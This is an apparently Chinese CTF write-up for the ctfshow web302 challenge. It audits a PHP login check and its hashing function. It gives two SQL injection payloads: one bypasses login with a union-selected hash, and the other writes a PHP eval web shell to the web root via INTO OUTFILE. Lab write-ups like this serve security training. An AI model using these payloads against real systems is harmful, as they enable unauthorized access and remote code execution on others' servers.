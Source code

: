 ```yaml
---
title: "[代码审计]实战篇:web302"
desc: TonyD0g
date: 2022-01-30 16:10:28
tags: 代码审计
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-01-30

## 前言:
(请多多支持ctfshow,侵删)
更改一下checklogin.php的这块代码:
![avatar](https://s4.ax1x.com/2022/01/30/HCETYt.png)
源码下载:https://ctfshow.lanzoui.com/ilMPgjfeyxa

## 正文:

更改了哪里，我们就审计哪里.
![avatar](https://s4.ax1x.com/2022/01/30/HCETYt.png)

发现调用了sds_decode函数,找一下这个函数，发现在fun.php里

我们传入的userpwd经过了一系列操作:
```
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```

所以我们把web301的Payload改改:
## Payload:
Payload1:
**userpwd=1&userid=-1' union select "d9c77c4e454869d5d8da3b4be79694d3"#**

Payload2:
**userpwd=b&userid=a' union select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/a.php"#**

## 验证:
![avatar](https://s4.ax1x.com/2022/01/30/HCE7fP.png)

## 注意事项:
![avatar](https://s4.ax1x.com/2022/01/30/HCEoFI.png)

</font>

